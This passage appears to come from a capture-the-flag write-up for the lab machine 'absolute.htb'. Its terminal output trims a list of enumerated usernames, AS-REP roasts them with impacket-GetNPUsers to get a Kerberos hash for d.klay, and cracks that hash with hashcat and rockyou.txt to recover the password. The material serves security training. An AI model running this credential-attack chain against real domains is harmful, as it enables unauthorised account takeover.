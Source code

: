 

```bash
❯ cat users.txt
2025/01/22 02:04:47 >  [+] VALID USERNAME:	j.roberts@absolute.htb
2025/01/22 02:04:47 >  [+] VALID USERNAME:	m.chaffrey@absolute.htb
2025/01/22 02:04:47 >  [+] VALID USERNAME:	s.osvald@absolute.htb
2025/01/22 02:04:47 >  [+] VALID USERNAME:	d.klay@absolute.htb
2025/01/22 02:04:47 >  [+] VALID USERNAME:	j.robinson@absolute.htb
2025/01/22 02:04:47 >  [+] VALID USERNAME:	n.smith@absolute.htb

❯ cat users.txt | awk '{print $NF}' | awk '{print $1}' FS='@' | sponge users.txt

❯ cat users.txt
j.roberts
m.chaffrey
s.osvald
d.klay
j.robinson
n.smith
```



```bash
❯ impacket-GetNPUsers -no-pass -usersfile users.txt absolute.htb/ 2>/dev/null
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] User j.roberts doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User m.chaffrey doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User s.osvald doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$d.klay@ABSOLUTE.HTB:9f213736a22fc3887d77727ca9bf30a0$2de99f7f0b98034eb2d2d2b371e7c02595b340ed35e16cef2697bcd317bd2eb48e56eedce376f65dbad1d084d6c3dcbfaf071cb31aa70d35524656fb9c98588856593e6f071a0fbb6847251a24a33f993ca282b186b676f73ba735b1f54bd03fc109ece63641392e29075540c899bf8b4fb773946bb85df432f4473dffd13db0b38f576765e2320b26f7ef4577c2afa467033118075a753e51e1f8e736e58fc4f2066734014584b957631bec8751a4a4c71073009eb9b2c1744c93d644438e5d73c11cacbae2aca12fcd8330a18f0777b1b3cba8957c3092ccf4a2e220d90fcfe966693bec63facd8b3fbbd5
[-] User j.robinson doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User n.smith doesn't have UF_DONT_REQUIRE_PREAUTH set
```





```bash
❯ hashcat -a 0 hashes /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting in autodetect mode

...[snip]...

$krb5asrep$23$d.klay@ABSOLUTE.HTB:9f213736a22fc3887d77727ca9bf30a0$2de99f7f0b98034eb2d2d2b371e7c02595b340ed35e16cef2697bcd317bd2eb48e56eedce376f65dbad1d084d6c3dcbfaf071cb31aa70d35524656fb9c98588856593e6f071a0fbb6847251a24a33f993ca282b186b676f73ba735b1f54bd03fc109ece63641392e29075540c899bf8b4fb773946bb85df432f4473dffd13db0b38f576765e2320b26f7ef4577c2afa467033118075a753e51e1f8e736e58fc4f2066734014584b957631bec8751a4a4c71073009eb9b2c1744c93d644438e5d73c11cacbae2aca12fcd8330a18f0777b1b3cba8957c3092ccf4a2e220d90fcfe966693bec63facd8b3fbbd5:Darkmoonsky248girl
```
